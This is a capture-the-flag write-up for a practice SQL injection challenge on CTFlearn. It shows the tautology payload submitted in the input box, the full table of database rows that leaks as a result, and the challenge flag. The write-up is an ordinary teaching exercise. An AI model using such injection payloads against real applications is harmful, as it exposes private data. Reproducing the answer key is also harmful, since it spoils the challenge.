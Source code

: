 <h2> Basic Injection </h2>

<h4>Problem Statement:</h4>
<p>See if you can leak the whole database using what you know about SQL Injections.</p>

<>h4Step-1:</h4>
After visiting the given URL <a>https://web.ctflearn.com/web4/</a>, you will be asked to input something and then submit it. <br><br>

Step-2: <br><br>
Inspect the input text box. <br><br>
You will find the line given below. <br><br>
<code> Try some names like Hiroki, Noah, Luke </code> <br><br>

Step-3: <br><br>
You will find no flag even after submitting the above names. Now try basic SQL payloads in the existing database. <br><br>
I submitted the input <code> Lucifer' OR ' 1 = 1</code>  and got the following output: <br><br>
<pre>
Name: Luke
Data: I made this problem.
Name: Alec
Data: Steam boys.
Name: Jalen
Data: Pump that iron fool.
Name: Eric
Data: I make cars.
Name: Sam
Data: Thinks he knows SQL.
Name: fl4g__giv3r
Data: CTFlearn{th4t_is_why_you_n33d_to_sanitiz3_inputs}
Name: snoutpop
Data: jowls
Name: Chunbucket
Data: @datboiiii
</pre>
<br>
Step-4: <br><br>
The desired flag <code> CTFlearn{th4t_is_why_you_n33d_to_sanitiz3_inputs}</code> can be found in line number 12 of the above output.
